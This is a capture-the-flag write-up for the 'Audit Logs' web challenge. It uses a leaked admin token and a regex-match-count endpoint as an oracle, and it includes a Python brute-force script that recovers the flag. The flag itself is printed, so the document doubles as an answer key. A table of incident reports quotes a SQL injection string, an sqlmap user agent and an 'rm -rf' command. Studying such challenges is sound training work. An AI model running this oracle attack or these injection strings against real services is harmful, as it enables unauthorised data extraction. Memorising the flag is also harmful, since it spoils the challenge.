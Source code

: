 ```yaml
---
challenge: Audit Logs
description: \*\*\*\nEvery action is logged, but not all logs are what they seem. Dive into TrailSec, an audit trail system, uncover hidden clues in system reports, and extract the flag.
flag: ATR{EFFICIENT_IN_SEARCHING_I_SEE}
scoring: standard(450)
value: 450
category: Hard
authors: Sean McGinty
---
```


# Audit Logs

[Back to Home](../../README.md)

## Points

Hard - 450 points

## Description

Every action is logged, but not all logs are what they seem. Dive into TrailSec, an audit trail system, uncover hidden clues in system reports, and extract the flag.

## Solution

After requesting a container and opening the link provided, we are presented with a text response of:

```
TrailSec Report Backend Service. Try /view_report?id=1.
```

We can go to `/view_report?id=1` and see the following:

```
Incident Report #1: System health check passed. No anomalies detected in the past 24 hours.
```

After continuing to increment the ID, we can see that the report IDs are not sequential. We'll repeat this process until we reach the ID of `16`, which gives us the following:

```
No such report.
```

We have gathered the following reports:

| Report ID | Incident Report                                                         |
|-----------|-------------------------------------------------------------------------|
| 1         | System health check passed. No anomalies detected in the past 24 hours. |
| 2         | Multiple failed login attempts detected on Admin Panel (IP: 192.168.10.42). Recommendation: Lock account after 3 failed attempts. |
| 3         | Unauthorized SSH key detected on production server. Removed unknown key fingerprint: SHA256:9gqMxyz9uYxKxyzNJJvNabcd== Audit initiated. |
| 4         | User "joleen" reported a slow system response. Root cause: Excessive CPU usage from excessive video playback during work hours. Flagged as non-critical. |
| 5         | Report ID mismatched during sync. Please contact support-desk@comssa.org.au. |
| 6         | Audit logs showed a request to from unauthorized IP. Query parameters were retained. Token mismatch suspected. Recommend reviewing logs for ?token= anomalies. |
| 7         | A regex pattern caused a service slowdown. Pattern submitted: (?=f.la)g Note: Log parser incorrectly flagged this as an error. |
| 8         | Request flood detected from IP: 203.0.113.99 User-Agent: sqlmap/1.4.6.10#dev Mitigation: Block IP via WAF. |
| 9         | Query string anomaly on : ?id=' OR '1'='1' Entry logged in audit trail. |
| 10        | Suspicious access to \`/matches\` with token: ADMIN_TOKEN Access denied. Logged for review.  |
| 11        | Querying number of matches may information. Confirmed via penetration test conducted by Red Team. |
| 12        | Coffee machine requested IP lease from DHCP server. Denied. Machine: "MrBean" (MAC: DE:AD:BE:A2:01:23) |
| 13        | User mistyped \`rm -rf /admin\` during onboarding demo. System backup restored successfully. |
| 14        | User "staff02" wanted a more powerful way to search secure files to get the number of files. Resolution: Gave access with our matches endpoint. |
| 15        | Our system was targeted by a DDoS attack. Mitigation: Rate limiting and IP blacklisting implemented. Recommendation: Review firewall rules and increase bandwidth. |

Looking through the reports, `#10` is interesting as it mentions a token of `ADMIN_TOKEN` on a request to `/matches`. There are some other reports that mention regex patterns, the matches route and ?token in `#6`.

When making a GET request to `/matches` with no parameters, we get a response of:

```
{"error":"Invalid token."}
```

Let's add in that token and see what we get `/matches?token=ADMIN_TOKEN`:

```
{"error":"Missing regex pattern."}
```

We can try adding a pattern parameter, say `?token=ADMIN_TOKEN&pattern=abc`, and we get a response of:

```
{"matches":0}
```

This is promising, let's try a `.*` regex pattern to see if we can get any matches:

```
{"matches":6}
```

We can successfully match all matches even if we don't know what they are. We know that the flag is in the format of `ATR{...}` so we can try to match that. We can use the regex pattern `ATR{.*}` and we get a response of:

```
{"matches":1}
```

From here it is just a matter of brute forcing the flag. You should try to be systematic about this. For example, you could work out the character set first. Using `pattern=ATR{[A-Z_]*}` will show that the flag is all uppercase letters and underscores.

One approach is to work out what letters are in the flag with `pattern=ATR{[ABCDEFGHIJKLMNOPQRSTUVWXYZ_]*}` and removing letters. After removing a letter, if the number of matches is the same, you know that letter is not in the flag. You can repeat this process until you have `pattern=ATR{[ACEFGHINRST_]*}`.

From this point it is a matter of brute forcing the flag. You can use a script to do this, or you can do it manually.

Here is an example script that will brute force the flag:

```python
import requests

BASE_URL = "http://<ip>:<port>/matches" # replace with actual server ip and port
TOKEN = "ADMIN_TOKEN"
CHARSET = "ACEFGHINRST_"
FLAG_PREFIX = "ATR{"
FLAG_SUFFIX = "}"

def test_flag(flag):
    pattern = f"{FLAG_PREFIX}{flag}{FLAG_SUFFIX}"
    response = requests.get(BASE_URL, params={"token": TOKEN, "pattern": pattern})
    return response.json().get("matches", 0) == 1

def brute_force_flag():
    flag = ""
    while True:
        for char in CHARSET:
            test_pattern = flag + char
            if test_flag(test_pattern + ".*"):
                flag += char
                print(f"Current flag: {FLAG_PREFIX}{flag}")
                break
        else:
            # No more characters match, flag is complete
            print(f"Flag found: {FLAG_PREFIX}{flag}{FLAG_SUFFIX}")
            break

if __name__ == "__main__":
    brute_force_flag()

# ...
# Current flag: ATR{EFFICIENT_IN_SEARCHING_I_SE
# Current flag: ATR{EFFICIENT_IN_SEARCHING_I_SEE
# Flag found: ATR{EFFICIENT_IN_SEARCHING_I_SEE}
```

After waiting for a minute or two, you'll get a flag of `ATR{EFFICIENT_IN_SEARCHING_I_SEE}`.

See [https://github.com/s3ansh33p/atr25_logs_challenge](https://github.com/s3ansh33p/atr25_logs_challenge) for the source code (was not available during the event).
